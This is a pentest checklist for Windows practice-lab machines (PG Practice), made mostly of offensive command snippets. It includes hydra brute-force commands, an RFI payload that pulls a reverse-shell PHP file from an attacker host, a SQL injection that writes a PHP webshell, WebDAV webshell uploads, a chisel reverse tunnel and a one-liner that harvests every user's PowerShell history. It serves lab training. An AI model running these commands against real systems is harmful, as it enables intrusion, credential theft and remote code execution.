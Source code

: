 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---
```


# Windows

{% hint style="info" %}
Based on the following PG Practice boxes: Algernon, AuthBy, Billyboss, Craft, DVR4, Fish, Hepet, Internal, Jacko, Kevin, MedJed, Mice, Monster, Nickel, Slort, Squid, Shenzi.
{% endhint %}

## Foothold

<details>

<summary>Port Scan</summary>

The `nmap-scan` script can be found [here](https://github.com/CSpanias/ctf-scripts/tree/main?tab=readme-ov-file#nmap-scansh).

```bash
sudo nmap-scan <target-IP>
```

</details>

<details>

<summary>HTTP(S)</summary>

* [ ] [Dirbust](../../web/dirbusting.md) HTTP(S) ports with a [directory list](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/raft-large-directories.txt) (plus server-specific extensions) and a [file list](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/raft-large-files.txt)&#x20;

{% code overflow="wrap" %}
```bash
# Dirbust with a directory list
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -ic -ac -c -u http://access/FUZZ -e .aspx,.php,
​
​# Dirbust with a file list
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-large-files.txt -ic -ac -c -u http://access/FUZZ
```
{% endcode %}

* [ ] [File Uploads](https://x7331.gitbook.io/boxes/web/file-uploads)
* [ ] Default/Weak Creds

```bash
uv run creds search <appName>
```

* [ ] BFA

{% code overflow="wrap" %}
```bash
# POST request
hydra -L /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -P /usr/share/wordlists/rockyou.txt 'http-post-form://target:8081/login.aspx:username=^USER^&password=^PASS^:F=403'

# POST request (base64-encoded credentials)
hydra -L /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -P /usr/share/wordlists/rockyou.txt 'http-post-form://target:8081/login.aspx:username=^USER64^&password=^PASS64^:F=403'
```
{% endcode %}

* [ ] Application-specific PoCs (RCE, LFI, RFI)

{% code overflow="wrap" %}
```bash
# CLI tool
searchsploit <appName> <version>

# Google dork
site:github.com <appName> exploit poc

# RFI revshell
curl --path-as-is -s "http://10.10.10.10:4443/site/index.php?page=http://192.168.45.241:443/revshell_ivan.php" --proxy 127.0.0.1:8080
```
{% endcode %}

* [ ] [WebDAV](https://x7331.gitbook.io/boxes/web/webdav)

{% code overflow="wrap" %}
```bash
# Connect to WebDAV
cadaver http://x7331
Authentication required for hutch on server 'x7331':
Username: x7331
Password:
# Upload a webshell
dav:/> put /usr/share/webshells/aspx/cmdasp.aspx cmdasp.aspx

# Upload a webshell directly
curl -T '/home/kali/shell.aspx' 'http://192.168.64.122/' -u x7331:Pass123!
```
{% endcode %}

* [ ] [Custom wordlists](https://x7331.gitbook.io/boxes/tools/wordlists)

```bash
# Create a userlist based on the site users
username-anarchy -i site_users > anarchy_output

# Create a passlist based on the site content
cewl --write cewl_output http://192.168.202.21/
```

* [ ] [SQLi](https://x7331.gitbook.io/boxes/web/injections/sqli) (`sqlmap` is allowed for enumeration but not for exploitation)

{% code overflow="wrap" %}
```bash
# Enumeration
sqlmap -r login.req --batch

# Webshell
a' UNION SELECT "<?php echo shell_exec($_GET['c']); ?>" INTO OUTFILE 'C:/xampp/htdocs/webshell.php'--

# RCE
$ curl -s --path-as-is "http://192.168.180.127:45332/webshell.php?c=whoami"
```
{% endcode %}

</details>

<details>

<summary><a href="../../services/shares/smb-139-445.md#usage">SMB</a></summary>

* [ ] Known vulnerabilities

```bash
sudo nmap -script=smb-vuln\* -p445 10.10.10.10
```

* [ ] List and enumerate shares

{% code overflow="wrap" %}
```bash
# List shares and permissions
uv run nxc smb DC01 -u celia.almeda -p 7k8XHk3dMtmpnC7 --shares

# Download the target share
nxc smb MS02 -u x7331 -p Pass123! -M spider_plus -o DOWNLOAD_FLAG=True OUTPUT_FOLDER=./ MAX_FILE_SIZE=99999999
```
{% endcode %}

* [ ] `WRITE` access ([steal hashes](https://x7331.gitbook.io/boxes/services/tcp/shares/139-445-smb#hashes))

</details>

<details>

<summary><a href="https://x7331.gitbook.io/boxes/services/tcp/shares/21-ftp">FTP</a></summary>

* [ ] Anonymous login

{% code overflow="wrap" %}
```bash
# Anonymous login
ftp anonymous@target
ftp ftp@target
```
{% endcode %}

* [ ] BFA

```bash
hydra -l <user> -P <passlist> ftp://<target>
```

* [ ] Enumerate directories

```bash
# Download dir
wget -r ftp://ftp@target_directory
```

* [ ] Upload files

```bash
ftp> put revshell_ivan.php
```

</details>

<details>

<summary><a href="https://x7331.gitbook.io/boxes/services/tcp/mail/25-587-smtp">SMTP</a>, <a href="https://x7331.gitbook.io/boxes/services/tcp/mail/110-995-pop3">POP3</a></summary>

* [ ] Username enumeration (SMTP)

```bash
smtp-user-enum -M VRFY -U anarchy_output -t 10.10.10.10
```

* [ ] Inbox enumeration (POP3)

```bash
$ telnet 10.10.10.10 110
USER x7331
+OK x7331 is known here.
PASS Pass123!
+OK Welcome! 4 messages (4744 bytes)
LIST
+OK 4 messages, 4744 bytes
1 1342
2 963
3 1347
4 1092
RETR 1
```

* [ ] Phising attachments ([library-ms](https://x7331.gitbook.io/boxes/social-engineering/phising#attachment), [libre-office](https://x7331.gitbook.io/boxes/web/file-uploads/file-types/libreoffice), [pdf](https://x7331.gitbook.io/boxes/web/file-uploads/file-types/pdf))

</details>

## Privilege Escalation

<details>

<summary>User Context</summary>

* [ ] [Privileges](https://x7331.gitbook.io/boxes/tl-dr/infra/os/windows/privilege-escalation/privileges) (if GUI access check for [token elevation](../../)) and [Groups](https://x7331.gitbook.io/boxes/tl-dr/infra/os/windows/privilege-escalation/groups)

```powershell
# User's privileges
whoami /priv

# User's groups
whoami /groups
```

* [ ] [PS History](https://x7331.gitbook.io/boxes/tl-dr/infra/os/windows/host-recon#files)

{% code overflow="wrap" %}
```powershell
# History files of all host's users (assuming default path)
foreach($user in ((ls C:\users).fullname)){cat "$user\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt" -ErrorAction SilentlyContinue}
```
{% endcode %}

* [ ] [Local/Network Service to `SYSTEM`](https://x7331.gitbook.io/boxes/tl-dr/infra/os/windows/privilege-escalation/local-network-service)

</details>

<details>

<summary>Host Enumeration</summary>

* [ ] [WinPEAS](https://x7331.gitbook.io/boxes/tl-dr/infra/infra-tools/pe-scripts#windows)
* [ ] Kernel

```powershell
systeminfo
```

* [ ] [Local Services](https://x7331.gitbook.io/boxes/tl-dr/infra/os/windows/host-recon#system)

```bash
# Start the chisel server on the attacking host
./chisel server -p 8000 --reverse
```

```powershell
# Connect from the target host
.\chisel.exe client 192.168.45.157:8000 R:6033:127.0.0.1:3306
```

```bash
# Enumerate the forwarded port
mysql -h 127.0.0.1 -P 6033 -u root
```

* [ ] [Running services](https://x7331.gitbook.io/boxes/tl-dr/infra/os/windows/privilege-escalation/services) (PowerUp)

</details>

<details>

<summary><a href="../../services/shares/smb-139-445.md#usage">SMB</a></summary>

* [ ] List and enumerate shares

{% code overflow="wrap" %}
```bash
# List shares and permissions
uv run nxc smb DC01 -u celia.almeda -p 7k8XHk3dMtmpnC7 --shares

# Download the target share
nxc smb MS02 -u x7331 -p Pass123! -M spider_plus -o DOWNLOAD_FLAG=True OUTPUT_FOLDER=./ MAX_FILE_SIZE=99999999
```
{% endcode %}

* [ ] `WRITE` access ([steal hashes](https://x7331.gitbook.io/boxes/services/tcp/shares/139-445-smb#hashes))

</details>

<details>

<summary><a href="https://x7331.gitbook.io/boxes/services/tcp/dbms/sql/1433-mssql">MSSQL</a></summary>

* [ ] Enumerate tables
* [ ] Links
* [ ] Users
* [ ] xp\_cmdshell
  * [ ] Host enumeration

</details>
